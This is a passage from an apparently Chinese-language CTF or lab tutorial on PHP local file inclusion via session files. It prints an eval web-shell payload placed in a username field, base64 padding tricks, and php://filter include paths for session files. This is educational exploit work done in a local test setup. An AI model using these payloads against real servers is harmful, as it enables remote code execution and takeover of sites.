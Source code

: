 ```php
usernmae=<?php eval($_REQUEST[1]);?>
```

然后我们去包含查看

```cobol
C:\Windows\sess_4794cc8f9f63ed29d97daf155ee94ef2
```

```cobol
a:1:{s:8:"username";s:36:"PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pOz8+";}
 
得到内容了
我们看看如果我们全部basae64解码 是这么个情况 （在序列化的情况下）
 
 
 
a1s8  user name s36P D9wa .........
 
很显然 还是出现了 缺少一位 那我们上面的payload可以直接使用
```

payload

```php
username=nmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnm<?php eval($_REQUEST[1]);?>
```

```cobol
php://filter/convert.base64-decode/resource=C:\Windows\sess_4794cc8f9f63ed29d97daf155ee94ef2
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/45d38425febf18f97918c400033ebae7.png" alt="" style="max-height:382px; box-sizing:content-box;" />


。。。。。。小皮把我ban了 那我还是换成vscode的环境吧

换路径

```cobol
C:\Users\Administrator\AppData\Local\Temp\sess_4794cc8f9f63ed29d97daf155ee94ef2
```

所以包含payload就变为

```cobol
php://filter/convert.base64-decode/resource=C:\Users\Administrator\AppData\Local\Temp\sess_4794cc8f9f63ed29d97daf155ee94ef2
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ec3638e2da30101f81508b07d959e0be.png" alt="" style="max-height:838px; box-sizing:content-box;" />


### NO Session_start()

上面的情况 全都是在 我们确定可以获取 用户session的情况下进行
